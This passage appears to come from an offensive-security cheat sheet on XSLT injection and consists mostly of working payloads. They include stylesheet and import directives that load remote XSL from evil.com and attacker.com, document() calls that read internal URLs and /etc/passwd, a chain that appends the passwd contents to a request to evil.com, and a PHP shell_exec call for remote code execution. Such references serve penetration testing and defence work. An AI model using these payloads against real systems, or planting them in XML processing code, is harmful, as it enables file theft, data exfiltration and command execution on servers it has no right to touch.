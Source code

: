 - Out-Of-Band XSLT permits to make remote requests (or local files requests)

    - **xml-stylesheet**

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xml (web-browser can be good testbed for this case ([example](http://www.w3schools.com/xsl/cdcatalog_with_xsl.xml)))</i>
        </div><div class="spoiler-text" markdown="1">

            <?xml version="1.0"?>
            <?xml-stylesheet type="text/xsl" href="http://evil.com/evil.xsl"?>
            <doc></doc>

        </div>
        </div>

    - **import** / **include**

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xsl (similar to XSD import and include)</i>
        </div><div class="spoiler-text" markdown="1">

            <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
                <xsl:import href="http://attacker.com/evil.xsl"/>
                <xsl:include href="http://attacker.com/evil.xsl"/>
            </xsl:stylesheet>

        </div>
        </div>

    - XSLT **Out-Of-Band** through **variables** and **value-of** definition

        - only for valid xml files, or expect to get only first line

                <xsl:value-of select="document('test.html')" />
                <xsl:value-of select="document('http://dev.company.com/secret.txt')" />

        - another attack example:

                <xsl:variable name="name1" select="document('file:///etc/passwd')" />
                <xsl:variable name="name2" select="concat('http://evil.com/?', $name1)" />
                <xsl:variable name="name3" select="document($name2)" />

- **RCE**

    - <div class="spoiler"><div class="spoiler-title"><i>
        libxslt + php + registerPHPFunctions() must be called on instance of processor
        </i></div><div class="spoiler-text" markdown="1">

            <?xml version ="1.0" encoding="UTF-8"?>
            <xsl:stylesheet version="1.0"
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:php="http://php.net/xsl">
                
                <xsl:output method="html" />
                <xsl:template match="/">
                    <xsl:value-of select="php:function('shell_exec', 'sleep 10')" />
                </xsl:template>
            </xsl:stylesheet>
